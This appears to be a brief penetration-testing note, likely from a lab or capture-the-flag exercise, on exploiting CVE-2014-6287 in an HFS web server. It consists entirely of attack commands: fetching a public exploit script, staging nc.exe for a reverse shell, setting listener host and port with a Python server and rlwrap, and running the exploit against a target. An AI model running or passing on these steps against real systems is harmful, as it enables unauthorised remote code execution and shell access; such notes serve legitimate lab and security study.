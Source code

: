 ```
wget https://gist.githubusercontent.com/AfroThundr3007730/834858b381634de8417f301620a2ccf9/raw/783473905951169e49afaf5958e89b23f5a8743f/cve-2014-6287.py
```
```
mkdir bin && cp /usr/share/windows-resources/binaries/nc.exe ./bin
```
[[Python#Server]]
Update lhost and lport variables.
[[1._rlwrap]]
```
python cve-2014-6287.py $TARGET 9505
```